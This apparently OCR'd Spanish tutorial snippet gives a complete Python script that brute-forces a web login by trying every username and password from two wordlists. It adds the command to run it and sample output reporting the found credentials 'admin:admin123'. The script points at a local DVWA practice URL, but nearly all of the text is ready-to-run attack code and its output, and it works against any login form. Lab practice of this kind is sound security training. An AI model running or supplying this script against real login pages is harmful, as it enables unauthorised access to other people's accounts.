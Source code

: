 
### 📜 Script completo: `fuerza_bruta_login.py`

```python
import requests

def fuerza_bruta_login(url_login, archivo_usuarios, archivo_passwords):
    with open(archivo_usuarios, 'r') as usuarios:
        usuarios = [u.strip() for u in usuarios.readlines()]

    with open(archivo_passwords, 'r') as passwords:
        passwords = [p.strip() for p in passwords.readlines()]

    for usuario in usuarios:
        for password in passwords:
            data = {
                "username": usuario,
                "password": password
            }
            print(f"🔄 Probando {usuario}:{password}")
            try:
                respuesta = requests.post(url_login, data=data)
                if "Login failed" not in respuesta.text and respuesta.status_code == 200:
                    print(f"✅ Credenciales válidas encontradas: {usuario}:{password}")
                    return
            except requests.RequestException as e:
                print(f"⚠️ Error: {e}")

    print("❌ No se encontraron credenciales válidas.")

# URL de prueba (usa tu entorno local o DVWA)
if __name__ == "__main__":
    url_objetivo = "http://localhost/dvwa/login.php"  # Cambiar por tu entorno
    fuerza_bruta_login(url_objetivo, "usuarios.txt", "passwords.txt")
```

---

### ▶️ Cómo ejecutarlo

```bash
python fuerza_bruta_login.py
```

#### Ejemplo de salida:

```
🔄 Probando admin:123456
🔄 Probando admin:admin123
✅ Credenciales válidas encontradas: admin:admin123
```

---
